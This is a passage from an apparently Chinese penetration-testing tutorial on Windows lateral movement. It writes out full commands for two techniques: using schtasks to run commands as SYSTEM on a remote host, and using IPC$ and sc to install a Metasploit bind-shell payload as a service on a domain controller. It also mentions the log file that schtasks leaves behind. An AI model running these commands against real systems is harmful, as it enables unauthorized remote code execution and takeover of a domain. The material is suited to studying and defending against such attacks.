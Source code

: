 除了就像上面那样利用计划任务执行木马程序获得主机权限外，我们还可以利用schtasks计划任务直接执行系统命令，但由于不会回显，所以我们要将执行的结果写入到一个文本文件中，然后利用type命令远程读取:

> schtasks /create /s 192.168.183.130 /tn test /sc minute /mo 1 /tr "C:\\Windows\\System32\\cmd.exe /c 'whoami > C:\\Users\\Administrator\\result.txt'" /ru system /f

![](https://i-blog.csdnimg.cn/blog_migrate/95e5d239a487323def13969964527598.jpeg)

立即启动该计划任务:

> schtasks /run /s 192.168.183.130 /i /tn test

![](https://i-blog.csdnimg.cn/blog_migrate/f4bbcff6346d81bdf5ac1c5adc377741.jpeg)

最后利用type命令远程查看目标主机上的result.txt文件即可，如下图所示，命令执行成功:

![](https://i-blog.csdnimg.cn/blog_migrate/bcd6c7ad208c66f297f9c62ddf6ff2fe.jpeg)

注意:在使用schtasks命令时，会在系统中留下日志文件C:\\Windows\\Tasks\\SchedLgU.txt。

### 创建Windows服务来进行横向渗透

使用条件：

> 当前跳板机用户具有管理员权限(因为要创建服务)。
> 
> 与目标机器已经建立ipc连接

#### 利用 sc 命令

在windows系统命令提示符中，有一个SC工具命令集。该工具集主要用来对操作系统服务进行管理，该命令是由service一词，简化而来的。我们可以用sc对目标主机远程创建服务来进行横向渗透

使用sc命令远程Windows服务操作需先建立IPC$连接，否则在执行时会返回拒绝访问。流程基本如下:

> 1.先让跳板机与内网目标机DC建立ipc连接。
> 
> 2.然后让跳板机使用copy命令远程操作，将metasploit生成的payload文件bind.exe复制到目标主机DC系统C盘中。

![](https://i-blog.csdnimg.cn/blog_migrate/7d92f646641685074afd4a4d1bb7dcec.jpeg)

> 3.再在目标主机DC上创建一个名称为"backdoor"的服务。命令如下:
> 
> sc \\\\\[主机名/IP\] create \[servicename\] binpath="\[path\]" #创建计划任务启动程序
> 
> sc \\\\WIN-ENS2VR5TR4N create bindshell binpath="c:\\bind.exe"
> 
> 注意这里的格式，“=”后面是必须空一格的，否则会出现错误。
> 
> 4.立即启动该服务:
> 
> sc \\\\WIN-ENS2VR5TR3N start bindshell

![](https://i-blog.csdnimg.cn/blog_migrate/219ef721cdcfab64d2c841aa2258d2f0.jpeg)

执行后，msf成功上线域控:
